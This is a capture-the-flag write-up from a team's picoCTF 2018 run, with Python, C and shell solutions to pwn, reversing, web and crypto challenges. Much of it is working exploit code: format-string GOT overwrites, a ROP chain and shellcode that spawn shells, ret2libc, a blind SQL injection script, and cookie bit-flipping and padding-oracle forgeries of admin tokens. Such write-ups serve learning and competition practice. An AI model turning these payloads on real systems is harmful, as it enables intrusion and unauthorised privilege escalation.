

# picoCTF 2018

We competed in [picoCTF](https://2018game.picoctf.com) this year to get some practice in
before [CySCA](https://www.cyberchallenge.com.au). We were 30th on the ladder at one point,
but we had to stop due to commitment with our study, so we stopped around the 8th day of the event. The challenge was very well organised, so kudos to CMU for organising this fun CTF.

This document is very much a work in progress, as we're now trying to recall the challenges and solutions a month later, but hopefully they're not so difficult that you couldn't figure them out from the code-based solutions alone.

## Completion


## Team
1. Adam Kinnell ([@akinnell](https://www.github.com/akinnell))
2. Aaram Halbous
3. Braeden Lynden ([@braedinski](https://www.github.com/braedinski))
4. Huy Au

## Challenges

| Challenge                 | Author        | Points| Type                |
| --------------------------|:-------------:| -----:|--------------------:|
| [echoback](#echoback)    | Braeden       | xxxxx | pwn |
| [can-you-gets-me](#can-you-gets-me)           | Braeden       | xxxxx | pwn |
| [gps](#gps) | Braeden | ... | pwn |
| [roulette](#roulette) | Braeden | ... | pwn |
| [keygen_me_1](#keygen_me_1) | Braeden | ... | reversing |
| [keygen_me_2](#keygen_me_2) | Braeden | ... | reversing |
| [magic_padding_oracle](#magic_padding_oracle) | Braeden | ... | crypto |
| [authenticate](#authenticate) | Braeden | ... | pwn |
| [rop_chain](#rop_chain) | Braeden | ... | pwn |
| [sql](#sql) | Braeden | ... | web |
| [got_2_learn_lib_c] | Braeden | ... | pwn |
| [script_me] | Braeden | ... | scripting |
| [Secure Logon](#secure-logon) | Braeden | ... | crypto |
| [SpyFi] | Braeden, Adam | ... | crypto |
| [circuit123] | Adam | ... | z3, crypto


## echoback

`echoback` is a simple program which takes input from `stdin` via `read()` and echoes it to `stdout` through `printf()`. The vulnerability in this particular program is due to the incorrect usage of the `fmt` argument to `printf()`. Unfortunately for us, landing a shell is not going to be as simple as overwriting a single `.got` entry with the address of `system()`. The challenge organisers hint that we might need to overwrite more than one location in memory, this isn't a big deal, it just complicates the exploitation process slightly.

So, after a bit of thinking, here's how the program should be exploited:
1. We overwrite the `.got` entry for `printf` at `0x0804a010` with the address of `system` at `0x08048460`.
2. The `.got` entry for `puts` at `0x0804a01c` is overwritten with the address of `vuln` at `0x080485ab`.
3. `printf` then reads our malicious format string and overwrites the aforementioned memory addresses.
4. The call to `puts` after `printf` jumps to the start of `vuln` instead of `puts`.
5. The `vuln` function then executes `read` and waits for us to enter `/bin/sh` as input for `printf` which now calls `system`
6. We get a shell!

```
input your message:
sh
id
uid=1161(echo-back_0) gid=1162(echo-back_0) groups=1162(echo-back_0)
ls -la
total 76
drwxr-x---   2 hacksports echo-back_0  4096 Sep 28 07:39 .
drwxr-x--x 576 root       root        53248 Sep 30 03:45 ..
-rwxr-sr-x   1 hacksports echo-back_0  7684 Sep 28 07:39 echoback
-rw-rw-r--   1 hacksports hacksports    364 Sep 28 07:39 echoback.c
-r--r-----   1 hacksports echo-back_0    54 Sep 28 07:39 flag.txt
-rwxr-sr-x   1 hacksports echo-back_0   116 Sep 28 07:39 xinet_startup.sh
cat flag.txt
picoCTF{foRm4t_stRinGs_aRe_3xtra_DanGer0us_ee5a92ac}
```
### get.py

```python
#!/usr/bin/python2

payload = '\x12\xa0\x04\x08'
payload += '\x10\xa0\x04\x08'
payload += '\x1e\xa0\x04\x08'
payload += '\x1c\xa0\x04\x08'
payload += '%2036x%7$hn'	# printf() 0x0804a010 -> 0x08048460 system()
payload += '%31836x%8$hn'
payload += '%33700x%9$hn'	# puts() 0x0804a01c -> 0x080485ab vuln()
payload += '%32167x%10$hn'

print payload
```

### Disassembly

```
pwndbg> disas vuln
Dump of assembler code for function vuln:
   0x080485ab <+0>:	push   ebp
   0x080485ac <+1>:	mov    ebp,esp
   0x080485ae <+3>:	push   edi
   0x080485af <+4>:	sub    esp,0x94
   0x080485b5 <+10>:	mov    eax,gs:0x14
   0x080485bb <+16>:	mov    DWORD PTR [ebp-0xc],eax
   0x080485be <+19>:	xor    eax,eax
   0x080485c0 <+21>:	lea    edx,[ebp-0x8c]
   0x080485c6 <+27>:	mov    eax,0x0
   0x080485cb <+32>:	mov    ecx,0x20
   0x080485d0 <+37>:	mov    edi,edx
   0x080485d2 <+39>:	rep stos DWORD PTR es:[edi],eax
   0x080485d4 <+41>:	sub    esp,0xc
   0x080485d7 <+44>:	push   0x8048720
   0x080485dc <+49>:	call   0x8048460 <system@plt>	; The call to system() seems suspect now...
   0x080485e1 <+54>:	add    esp,0x10
   0x080485e4 <+57>:	sub    esp,0x4
   0x080485e7 <+60>:	push   0x7f
   0x080485e9 <+62>:	lea    eax,[ebp-0x8c]
   0x080485ef <+68>:	push   eax
   0x080485f0 <+69>:	push   0x0
   0x080485f2 <+71>:	call   0x8048410 <read@plt>	; Our malicious string!
   0x080485f7 <+76>:	add    esp,0x10
   0x080485fa <+79>:	sub    esp,0xc
   0x080485fd <+82>:	lea    eax,[ebp-0x8c]
   0x08048603 <+88>:	push   eax			; '/bin/sh' on the next call to vuln()
   0x08048604 <+89>:	call   0x8048420 <printf@plt>	; I become system()
   0x08048609 <+94>:	add    esp,0x10
   0x0804860c <+97>:	sub    esp,0xc
   0x0804860f <+100>:	push   0x8048739
   0x08048614 <+105>:	call   0x8048450 <puts@plt>	; I call vuln() again
```


## can-you-gets-me
`can-you-gets-me` is exploited using return-oriented programming. As the name suggests, the program accepts input from `stdin` via `gets()` leading to a buffer overflow. We setup our call to `system()` by loading the appropriate registers `ebx`, `ecx` and `edx` with the required parameters before issuing an `int 80h`. The string `/bin//sh` is written into the `.bss` section 4 bytes at a time.

```
$ (cat /tmp/gets_payload; cat) | ./gets
GIVE ME YOUR NAME!
id
uid=2861(secsession) gid=1127(can-you-gets-me_0) groups=1127(can-you-gets-me_0),1001(competitors),2862(secsession)
cat flag.txt
picoCTF{rOp_yOuR_wAY_tO_AnTHinG_cca0ace7}
```

```python
#!/usr/bin/python2

import struct

'''
08048000-080e9000 r-xp 00000000 fd:02 7733285 gets
080e9000-080eb000 rw-p 000a0000 fd:02 7733285 gets
'''
base = 0x8048000
payload = 'A'*28
payload += struct.pack('<I', base + 0x2702a)	# pop edx, ret
payload += struct.pack('<I', 0x080ebcc0)	# $edx = 0x080ebda0
payload += struct.pack('<I', base + 0x701c6)	# pop eax, ret
payload += '/bin'  
payload += struct.pack('<I', base + 0xc9db)	# mov [edx], eax; ret

payload += struct.pack('<I', base + 0x2702a)	# pop edx, ret
payload += struct.pack('<I', 0x080ebcc4)	# $edx = 0x080ebda4
payload += struct.pack('<I', base + 0x701c6)	# eax = '//sh'
payload += '//sh'
payload += struct.pack('<I', base + 0xc9db)	# mov [edx], eax; ret

payload += struct.pack('<I', base + 0x2702a)	# pop edx, ret
payload += struct.pack('<I', 0x080ebcc8)	# $edx = 0x080ebda4
payload += struct.pack('<I', base + 0x1303)	# xor eax, eax; ret
payload += struct.pack('<I', base + 0xc9db)	# mov [edx], eax; ret

payload += struct.pack('<I', base + 0x1c9)	# pop ebx; ret
payload += struct.pack('<I', 0x080ebcc0)	# ...
payload += struct.pack('<I', base + 0x96955)	# pop ecx; ret
payload += struct.pack('<I', 0)
payload += struct.pack('<I', base + 0x2702a)	# pop edx; ret
payload += struct.pack('<I', 0)

for i in range(0xb):
	payload += struct.pack('<I', base + 0x3286f)	# inc eax

payload += struct.pack('<I', base + 0x27630)	# int 80h
payload += '\n'

print payload
```

## keygen_me_1
I probably didn't need to use `angr` for this, but it's such a fun tool that I used it anyway. I'd also never used it before so it was nice to play around with something new.

```python
#!/usr/bin/python

'''
$ ./activate 5423655448898828
Product Activated Successfully: picoCTF{k3yg3n5_4r3_s0_s1mp13_2243075891}
'''

import angr
import claripy

def main():
	proj = angr.Project('./activate', load_options={"auto_load_libs": False})
	argv1 = claripy.BVS("argv1", 0x10 * 8)
	initial_state = proj.factory.entry_state(args=["./activate", argv1]) 

	for byte in argv1.chop(8):
		initial_state.add_constraints(byte >= '\x30') # '0'
		initial_state.add_constraints(byte <= '\x39') # '9'

	sm = proj.factory.simulation_manager(initial_state)
	sm.explore(find=0x080488cc, avoid=[0x080488ad, 0x0804887e])
	
	found = sm.found[0]
	print found.solver.eval(argv1, cast_to=str)

if __name__ == '__main__':
	main()
```

## keygen_me_2
This challenge was a little more difficult so I decided to use Z3 for this. I was stuck for a while on this challenge because I failed to recognise that `key_constraint_03` was actually subtracting some arguments rather than adding them. After fixing this little error, we're greeted with the flag!

```
$ ./activate IWO0E8BX07K02ODB
Product Activated Successfully: picoCTF{c0n5tr41nt_50lv1nG_15_W4y_f45t3r_783243818}
```

```python
#!/usr/bin/python2

from z3 import *
import re

def is_valid(x):
	return And((x >= 0x0), (x <= 0x23))

def asciify(p):
	if p >= 0 and p <= 9:
		return chr(p + 0x30)
	elif p >= 10 and p <= 35:
		return chr(p + 0x37)

vector = ''
for x in range(0, 16):
	vector += 's[{}] '.format(x)

s = Solver()
m = BitVecs(vector, 8)

for i in range(0, 16):
	s.add(is_valid(m[i]))

s.add((m[0] + m[1]) % 0x24 == 0xe)					# key_constraint_01
s.add((m[2] + m[3]) % 0x24 == 0x18)					# key_constraint_02
s.add((m[2] - m[0]) % 0x24 == 0x6)					# key_constraint_03
s.add((m[1] + m[3] + m[5]) % 0x24 == 0x4)			# key_constraint_04
s.add((m[2] + m[4] + m[6]) % 0x24 == 0xd)			# key_constraint_05
s.add((m[3] + m[4] + m[5]) % 0x24 == 0x16)			# key_constraint_06
s.add((m[6] + m[8] + m[0xa]) % 0x24 == 0x1f)		# key_constraint_07
s.add((m[1] + m[4] + m[7]) % 0x24 == 0x7)			# key_constraint_08
s.add((m[9] + m[0xc] + m[0xf]) % 0x24 == 0x14)		# key_constraint_09
s.add((m[0xd] + m[0xe] + m[0xf]) % 0x24 == 0xc)		# key_constraint_10
s.add((m[0x8] + m[0x9] + m[0xa]) % 0x24 == 0x1b)	# key_constraint_11
s.add((m[0x7] + m[0xc] + m[0xd]) % 0x24 == 0x17)	# key_constraint_12

pattern = re.compile(r's\[(\d+)\]')

if s.check() == z3.sat:
	model = s.model()
	out = ''
	for x in range(0, 16):
		for i in model:
			ch = model[i].as_long()
			matches = re.findall(pattern, str(i))
			
			for match in matches:
				if match == str(x):
					out += to_ascii(ch)
					print '[{}] {}'.format(x, asciify(ch))

	print out
```

## gps

`gps` is an application which leaks the address of a variable allocated on the stack, plus an offset, i.e. `&stk + rand()`. In order to exploit this application, we need to locate the address of `buffer` on the stack using the leaked stack address. The number of dots between each consecutive `Satellite n` call is enough to leak the seed for the PRNG, which just so happens to be the address of our `buffer`. We can use `pwntools` to automate most of this process. I had to write a small C application to find the seed for the PRNG, but this wasn't too difficult because the maximum distance of the offset from the `stk` variable was between `-816` and `816`. In the worst case, our C application returned 4 possible seeds, of which, 3 were probably useless because they were not aligned on stack boundaries, so it was trivial to determine which was the correct address of our buffer.

After successfully exploiting the application, the flag mentioned the use of a NOP-sled. I didn't actually use a NOP-sled because I managed to determine the exact location of the shellcode, but I'm sure this would've eased the exploitation process slightly.

```
$ python get.py
[+] Opening connection to 2018shell1.picoctf.com on port 49351: Done
GPS Initializing..........Done
Acquiring satellites.Satellite 0...Done
Satellite 1....Done
Satellite 2....Done

GPS Initialized.
Warning: Weak signal causing low measurement accuracy

We need to access flag.txt.
Current position: 
0x7ffde6e3b11f
[*] Switching to interactive mode

> Where do we start?
> $ 0x7ffde6e3aff0
$ ls
flag.txt
gps
gps.c
xinet_startup.sh
$ cat flag.txt
picoCTF{s4v3_y0urs3lf_w1th_a_sl3d_0f_n0ps_awalizpv}
```

```python
#!/usr/bin/python2

from pwn import *

shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
payload = shellcode

print payload
#p = process('./gps')
p = remote('2018shell1.picoctf.com', 49351)
print p.recvuntil('Current position: ')
stk = p.recv(14)

# We'll use this address as input to our 'rand` application to find potential locations of our buffer.
print stk

p.recvuntil('What\'s your plan?')
p.sendline(payload)
p.interactive()
p.close()
```

## script_me
`script_me` was a fun scripting challenge involving parentheses and some variations on combine and absorb operations. I used `pwndbg` for this because it simplified the process of interacting with the server dramatically.

```python
#!/usr/bin/python2

from pwn import *

#
# $ python get.py
# [+] Opening connection to 2018shell1.picoctf.com on port 22973: Done
# (()) + (()(())) 
# (()(())) + (()()) + () 
# (((()())()())()) + (()()()(())()()) + ()() + ()()() + ()()() 
# (()()()()()()()()) + ()()() + (()()()()()()()()) + (((()())()())()) + (()()()()()()()()) + (()(())) + (()(((()()())()())()())) + ()()() + ()()() + (()()()) 
# ((()()())(())()()()()) + ((()()()((()())()())())((()(())((()))(((())))()()))()) + ((()(())(()()()))((()(())((()))(((())))()()))()) + ((()()()()()()()()()()())()(((()()())()())()())) + ((()()())((((()))))(((())))((()))(())()) + ((()()()()()(((()()())()())()()))((()(())((()))(((())))()()))()) + (()()()((()(())((()))(((())))()()))()) + ((()())(()()())()(((()()())()())()())) + ((()()(())()())()(())((()))(((())))((((()))))) + ((()()()())((((()))))(((())))((()))(())()) + ((())()(())(()()()()()()()())) + (((()()()(())()())()(((()()())()())()()))((((()))))(((())))((()))(())()) + (((()()())((()())()())())()(((()()())()())()())) + ((()()()())(()()()()()()()())()(())((()))(((())))((((()))))) + ((())()(()()())) + ((()(())()())((((()))))(((())))((()))(())()) + (()()())(())(()()()) + ((()()(())()())((()(())((()))(((())))()()))()) + ((()()(()))((())())((()())()())()) + (()(())()()()()(())) + (()(())()(())(()()())) + (()(()))((())())(()()()(())()()) + ((()()())(())()()()()) + (((()()()())()(((()()())()())()()))((()(())((()))(((())))()()))()) + ((()()(((()()())()())()()))()(())((()))(((())))((((()))))) + (((())()(()))()(((()()())()())()())) + (((()())()(())()())((()())()())()) + ((())()()()()(()()())) + ((()()()(((()()())()())()()))((((()))))(((())))((()))(())()) + (()()(())(()()()()()()()()))(()()()(())()()) + (()(()))((())()(()()()()()()()())) + (((()()())()()()(())()())((((()))))(((())))((()))(())()) + (()(())()()()(()()()()()()()())) + (((())())()(())((()))(((())))((((()))))) + (((()()()()()()()())()()()(())()())()(())((()))(((())))((((()))))) + ((()(())()())((()())()())()) + (((()())()()()(())()())()(())((()))(((())))((((()))))) + ((()()()()()()(())()())()(((()()())()())()())) + ((()())((()(())((()))(((())))()()))()(()(())((()))(((())))((((())))))) + (((()())()(()))(()()()(())()())((()())()())()) + ((()()()()()()()()()()()())((()())()())()) + (((())())(()()()(())()())()(())((()))(((())))((((()))))) + (()(())(())) + ((()()()()()()(())()())((()())()())()) + ((()())()(((()()())()())()())) + (((()()())()(((()()())()())()()))()(())((()))(((())))((((()))))) + ((()()(()))(()()()(())()())()(((()()())()())()())) + (((()())()(())(()()()))((()())()())()) + ((()()(())(()()()()()()()()))()(())((()))(((())))((((()))))) + (()(())(()()())) 
# [+] Receiving all data: Done (75B)
# [*] Closed connection to 2018shell1.picoctf.com port 22973
#
# Congratulations, here's your flag: picoCTF{5cr1pt1nG_l1k3_4_pRo_b184d89d}
#

debug_output = False

def parse(challenge):
	if '+' not in challenge:
		return [challenge]

	string = ''
	catalan = 0
	operands = []
	height = 0

	# I dunno, a dumb way to ensure that the final operand is added to the list.
	challenge = challenge + 'x'

	for ch in challenge:
		if ch == '(':
			catalan += 1
			string += '('

			if catalan > height:
				height = catalan

		elif ch == ')':
			catalan -= 1
			string += ')'

		elif ch == '+' or ch == 'x':
			assert(catalan == 0)

			operands.append({'string': string, 'height': height})

			height = 0
			subsets = []
			string = ''

	return operands

def print_operation(name, left, right):
	if debug_output == True:
		print '[{}] {} + {}'.format(name, left, right)

def combine(left, right):
	result = '{}{}'.format(left, right)

	print_operation('combine', left, right)
	return result

def absorb_right(left, right):
	last = left.rfind(')')
	prefix = left[0:last]
	result = '{}{}{}'.format(prefix, right, ')')

	print_operation('absorb_right', left, right)
	return result

def absorb_left(left, right):
	result = '{}{}{}'.format('(', left, right[1:])

	print_operation('absorb_left', left, right)
	return result

def solve(challenge):
	operands = parse(challenge)
	while len(operands) > 1:
		result = ''
		left, right = operands[0], operands[1]

		operands.pop(0)
		operands.pop(0)

		if left['height'] == right['height']:
			result = combine(left['string'], right['string'])
		elif left['height'] > right['height']:
			result = absorb_right(left['string'], right['string'])
		elif left['height'] < right['height']:
			result = absorb_left(left['string'], right['string'])

		remainder = [result]
		remainder += [x['string'] for x in operands]

		challenge = ' + '.join(remainder)
		operands = parse(challenge)

	return operands[0]

r = remote('2018shell1.picoctf.com', 22973)

while True:
	try:
		challenge = r.recvline_endswith('= ???')
		challenge = challenge[:-5]
		print challenge

		r.sendline(solve(challenge))
		response = r.recvline_contains(('Correct!', 'Expected', 'Congratulations'), keepends=True)

	except EOFError:
		print r.recvall()
		break

r.close()
```

## rop_chain
```
080485cb T win_function1
080485d8 T win_function2
0804862b T flag
```

To get the flag, win1 must be true, win2 must be true, arg_check2 must be equal to 0xDEADBAAD
```
win_function1():
	win1 = true;

	win_function2(arg):
		win1 && arg == 0xBAAAAAAD then:
			win2 = true;

			flag()
```

```
$ perl -e 'print "A"x28 . "\xcb\x85\x04\x08\xd8\x85\x04\x08\x2b\x86\x04\x08\xad\xaa\xaa\xba\xad\xba\xad\xde"' | ./rop
Enter your input> picoCTF{rOp_aInT_5o_h4Rd_R1gHt_6e6efe52}
```

## got_2_learn_libc

```python
#!/usr/bin/python2

from pwn import *

directory = '/problems/got-2-learn-libc_1_ceda86bc09ce7d6a0588da4f914eb833'
shell = ssh('secsession', '2018shell1.picoctf.com', password='')
sh = shell.run('sh')
sh.sendline('cd ' + directory)
sh.sendline('./vuln')

# The offset for system() from puts() in this version of libc is (&puts - 0x24800)
# The ./vuln application leaks to us some addresses from libc so we can first
# test puts(useful_string) which will output "/bin/sh" to the shell.
# The next step is executing system(useful_string) which lands us in a shell
# with escalated privileges. The next step is to just 'cat flag.txt'.

system_offset = 0x24800
puts = p32(int(sh.recvline_startswith('puts')[6:].strip(), 16) - system_offset)
useful_string = p32(int(sh.recvline_startswith('useful_string')[15:].strip(), 16))

payload = asm('nop') * 160		# all filler
payload += puts					# %eip
payload += '\x01\x02\x03\x04'	# return address
payload += useful_string		# first argument to system()
payload += '\n'

sh.sendline(payload)
sh.interactive()

shell.close()
```

## roulette

`roulette` is a gambling application which leaks a seed for the PRNG, and suffers from an integer overflow. These two bugs in combination lead to the 'flag condition', which requires that our `cash` exceed one billion dollars, and that our number of `wins >= HOTSTREAK`.

```c
// main() ...

      if(cash > ONE_BILLION) {
	printf("*** Current Balance: $%lu ***\n", cash);
	if (wins >= HOTSTREAK) {
	  puts("Wow, I can't believe you did it.. You deserve this flag!");
	  print_flag();
	  exit(0);
	}
	else {
	  puts("Wait a second... You're not even on a hotstreak! Get out of here cheater!");
	  exit(-1);
	}
	}
	
// ... main()
```
The seed for the PRNG is leaked through the `get_rand` function, which determines our starting money.

```c
long get_rand() {
  long seed;
  FILE *f = fopen("/dev/urandom", "r");
  fread(&seed, sizeof(seed), 1, f);
  fclose(f);
  seed = seed % 5000;
  if (seed < 0) seed = seed * -1;
  srand(seed);
  return seed;
}
```

The number which determines whether our guess is correct or not is predictable. We just need to call `rand` once if we guess correctly, and twice if we guess incorrectly, to ensure that our version of the PRNG is synchronised (see `win.c`).

```c
void play_roulette(long choice, long bet) {
  
  printf("Spinning the Roulette for a chance to win $%lu!\n", 2*bet);
  long spin = (rand() % ROULETTE_SIZE)+1;

  spin_roulette(spin);
  
  if (spin == choice) {
    cash += 2*bet;
    puts(win_msgs[rand()%NUM_WIN_MSGS]);
    wins += 1;
  }
  else {
    puts(lose_msgs1[rand()%NUM_LOSE_MSGS]);
    puts(lose_msgs2[rand()%NUM_LOSE_MSGS]);
  }
  puts("");
}
```

### `win.c`
This application is used to synch up with the PRNG inside the roulette application.

```c
#include <stdio.h>
#include <unistd.h>

int main(int argc, char **argv)
{
	if (argc < 2)
	{
		fprintf(stderr, "Usage: %s <seed>\n", argv[0]);
		return EXIT_FAILURE;
	}

	srand(atoi(argv[1]));

	while (1)
	{
		long spin = (rand() % ROULETTE_SIZE) + 1;
		printf("%ld\n", spin);

		rand();

		fgetc(stdin);
	}
}
```

## sql
I'm pretty sure this isn't the correct name for the challenge, but oh well! This is a simple blind SQL injection, initially I used the `LENGTH() == x` SQL statement to test how long the flag is, then I used `SUBSTR()` to extract the flag.

```
$ python get.py
[0] 4
[1] 41
[2] 41A
[3] 41An
[4] 41And
[5] 41AndS
[6] 41AndSi
[7] 41AndSix
[8] 41AndSixS
[9] 41AndSixSi
[10] 41AndSixSix
[11] 41AndSixSixt
[12] 41AndSixSixth
[13] 41AndSixSixths
```

```python
#!/usr/bin/python2

import string
import requests
import sys

index = 1
alphabet = string.digits + string.ascii_letters
flag = ''

for count in range(0, 14):
	for character in alphabet:
		payload = "' OR '{}'=SUBSTR(answer,{},1)--".format(character, index)
		data = {'answer': payload, 'submit': 'Answer', 'debug': 1}

		r = requests.post('http://2018shell1.picoctf.com:28120/answer2.php', data=data)
		if 'Wrong' not in r.text:
			index += 1
			flag += character
			print '[{}] {}'.format(count, flag)

			break

data['answer'] = flag
r = requests.post('http://2018shell1.picoctf.com:28120/answer2.php', data=data)
```

## Secure Logon

This challenge requires us to leverage a bit flipping attack on a base64
encoded cookie, which the server uses for user authentication/authorisation.
We notice straight away that the login form accepts any possible user combination,
the source code provided also tells us that if you try to login as 'admin',
you'll be greeted with an error message. This isn't such a big deal, because
the user's privileges are based on the dictionary value ['admin': 0/1] inside
the cookie, not their username or password combination.

At first I thought this was a padding oracle attack, but on further research
that proved to be a dead-end. I woke up in the morning and did a bit more
research, and remembered the bit-flipping attack. I hate writing scripts
which might end up being a gigantic waste of time but I persevered on this
one and got the flag.

```
$ python get.py
[0xe0] 200 {'admin': 4, 'password': '', 'username': 'braeden'}
[0xe1] 200 {'admin': 5, 'password': '', 'username': 'braeden'}
[0xe2] 200 {'admin': 6, 'password': '', 'username': 'braeden'}
[0xe3] 200 {'admin': 7, 'password': '', 'username': 'braeden'}
[0xe4] 200 {'admin': 0, 'password': '', 'username': 'braeden'}
[0xe5] 200 picoCTF{fl1p_4ll_th3_bit3_fa8dae76}
```

The first column is the byte we tried, the 2nd is the response code (the server returned 500 on decryption error), and the 3rd is the
cookie we `grep`d from the HTML. We can see that replacing byte 10 with `0xe5` yields `'admin': 0` and we're given the flag.

```python
#!/usr/bin/python2


import re
import requests

from HTMLParser import HTMLParser
from base64 import b64decode, b64encode

h = HTMLParser()
url = 'http://2018shell1.picoctf.com:43731/flag'

pattern = re.compile(r'Cookie: (.+?) <')
pattern_flag = re.compile(r'<b>Flag</b>: <code>(.*)</code>')

index = 10

with requests.Session() as s:
	for byte in range(224,256):
		# {'admin': 0, 'password': '', 'username': 'braeden'}
		payload_b64 = 'ZX2rNa8q2rJSteSCtXSpLegMvnMgW5rzfv1ZE6O5r91ubMtCBPrWiaI8+mlxRmEf30sLpsocLLK92d2qO+LUbyVHShnlBKezWIT3rUIy5ro='
		payload = list(b64decode(payload_b64))
		payload[index] = chr(byte)
		payload = ''.join(payload)
		payload = b64encode(payload)

		# We send the payload to the server as a cookie.
		cookie = {'cookie': payload}

		# I dunno, it's either my Python installation or I'm bad at Python (the latter probs)
		while True:
			try:
				r = s.get(url, cookies=cookie)
			except requests.exceptions.ConnectionError:
				continue

			break

		if r.status_code == 200:
			parsed = h.unescape(r.text)
			matches = re.findall(pattern, parsed)
			matches_flag = re.findall(pattern_flag, parsed)

			if matches:
				string = matches[0]
			
			if matches_flag:
				string = matches_flag[0]

			print '[{}] {} {}'.format(hex(byte), r.status_code, string)

			if matches_flag:
				break
		else:
			print '[{}] {}'.format(hex(byte), r.status_code)
```

## authenticate
`authenticate` was a simple format string exploit. We modify a variable in memory to grant us access to the flag, easy!

```
$ perl -e 'print "\x4c\xa0\x04\x08" . "%p"x10 . "%n" . "\n"' | nc 2018shell1.picoctf.com 27114
Would you like to read the flag? (yes/no)
Received Unknown Input:

L�0x80489a60xf77215a00x804875a0xf77580000xf77589180xffabcfe00xffabd0d4(nil)0xffabd0740x42b
Access Granted.
picoCTF{y0u_4r3_n0w_aUtH3nt1c4t3d_742b49a4}
```

## magic_padding_oracle

```python
#!/usr/bin/python2

from pwn import *

import cryptanalib as ca
import requests
import string
import sys

charset = '-{}:\'\", _' + string.lowercase + string.digits + '\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10'

def padding_oracle(ciphertext):
   while True:
      try:
         r = remote('2018shell1.picoctf.com', 45008, level='error', timeout=8)
         #print ciphertext.encode('hex')

         r.sendline(ciphertext.encode('hex'))
         msg = r.recvall()
         if 'invalid padding' in msg:
            return False
         else:
            print '[+] {}'.format(ciphertext.encode('hex'))
            return True
      except pwnlib.exception.PwnlibException:
         print '[+] Exception'
         continue

ciphertext = '42fef6c675ee50fca505d4023e8c21bd0b409a1f864eec9dad32e86199b518330ab686ba7afaf345e4b2bdca541146511d82c37e7f991be60eda932d1fd407c65ab1726c337c128163c4c3449ce2398d'

plaintext = '{"username": "braeden", "expires": "2018-11-01", "is_admin": "true"}'

new_ciphertext = ca.cbcr(plaintext, oracle=padding_oracle, is_padding_oracle=True, block_size=16, verbose=True)
print new_ciphertext
print new_ciphertext.encode('hex')

#ca.padding_oracle_decrypt(padding_oracle=padding_oracle, ciphertext=ciphertext.decode('hex'), block_size=16, padding_type='pkcs7', iv='5468697320697320616e204956343536'.decode('hex'), verbose=True, hollywood=False, charset=charset)

'''
$ python feather.py
{"username": "guest", "expires": "2000-01-07", "is_admin": "false"}

$ python feather.py
ea705eab6b09edd87341b54be3964117a8363898ec33f4cb0a10ca7c5fa1544dbe766c5552c1905e73f8ba8c7ccf6ddaf3d3fc2f311d8d705df6fd5e5767af13c617cb61a709dc29e4df9ed20e47a1df00000000000000000000000000000000

'''
